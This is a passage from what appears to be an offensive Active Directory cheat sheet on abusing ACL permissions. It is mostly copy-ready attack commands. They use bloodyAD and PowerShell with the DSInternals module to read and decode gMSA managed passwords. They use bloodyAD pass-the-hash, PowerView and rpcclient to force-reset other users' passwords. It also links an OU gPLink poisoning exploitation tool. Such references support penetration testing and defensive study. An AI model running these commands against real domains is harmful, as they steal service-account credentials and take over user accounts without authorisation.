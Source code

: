 ## ReadGMSAPassword

An attacker can read the GMSA password of the account this ACE applies to.

* Windows/Linux:

 ```ps1
 bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 get object 'gmsaAccount$' --attr msDS-ManagedPassword
 ```

* Windows only:

 ```ps1
 # Save the blob to a variable
 $gmsa = Get-ADServiceAccount -Identity 'SQL_HQ_Primary' -Properties 'msDS-ManagedPassword'
 $mp = $gmsa.'msDS-ManagedPassword'

 # Decode the data structure using the DSInternals module
 ConvertFrom-ADManagedPasswordBlob $mp
 ```

## ForceChangePassword

An attacker can change the password of the user this ACE applies to:

* Windows/Linux:

 ```ps1
 # Using bloodyAD with pass-the-hash
 bloodyAD --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B set password target_user target_newpwd
 ```

* Windows:

 ```powershell
 $NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
 Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
 ```

* Linux:

 ```ps1
 # Using rpcclient from the  Samba software suite
 rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 
 ```

## Organizational Units ACL

Access rights granted on Organizational Units can be exploited to compromise all the objects that are contained in it.

* [synacktiv/OUned](https://github.com/synacktiv/OUned) - The OUned project automating Active Directory Organizational Units ACL exploitation through gPLink poisoning

### Non privileged objects
